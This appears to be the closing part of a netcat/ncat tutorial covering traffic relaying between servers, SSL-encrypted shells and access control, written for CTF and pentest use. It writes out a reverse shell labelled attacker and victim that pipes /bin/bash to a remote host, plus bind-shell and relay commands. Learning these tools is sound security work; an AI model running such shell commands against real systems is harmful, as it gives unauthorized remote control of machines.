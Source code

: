 ```
server1 <-------------> server2 <-------------> server3
```
To redirect traffic from server1 to a web app running on server3 (192.168.125.40) on port 8080 we can execute the below ncat command on server2.

```sh
nc -klvnp 8000 -e "/bin/nc 192.168.125.40 8080"
```
Now you can reach the web app on server3 by accessing server2 on port 8000.

### Ncat Additional Features

From the features the security risks can be seen because there's no encryption on the connection as netcat will write to the connection in its
rawest form, therefore anyone sniffing the network can capture all your traffic unencrypted in the case of shells and file transfer. For bind shells, 
there's no authentication therefore anyone connecting to the port the bind shell is listening on will be able to run commands on the machine.

When using ncat, some of these concerns are addressed as it allows for use of ssl as well as access control.

**Encrypted Shells**

For a reverse shell we'll use the same command syntax but add `--ssl` to the command, same goes for bind shells.

Server (attacker machine)

```sh
nc --ssl -lvnp 8080
```
Client (victim machine)

```sh
nc --ssl -e /bin/bash 192.168.125.10 8080
```

**Access Control**

When using netcat in server mode the `--allow` option can specify one host or network range to be allowed to connect to the port, this can be good 
for the bind shell situation. Similarly, you can use --deny to deny access from a specific host or network range.

```sh
nc --allow 127.0.0.1 -e /bin/bash -lvnp 8000
```
The above command will set the bind shell to only accept connections from localhost.

## Conclusion

Netcat is a really great tool for network related activities, I find it really useful during CTFs and sometimes use it during pentests. There's several other options that 
we haven't looked into feel free to explore them, but I think we've covered should be enough for most of your use cases.
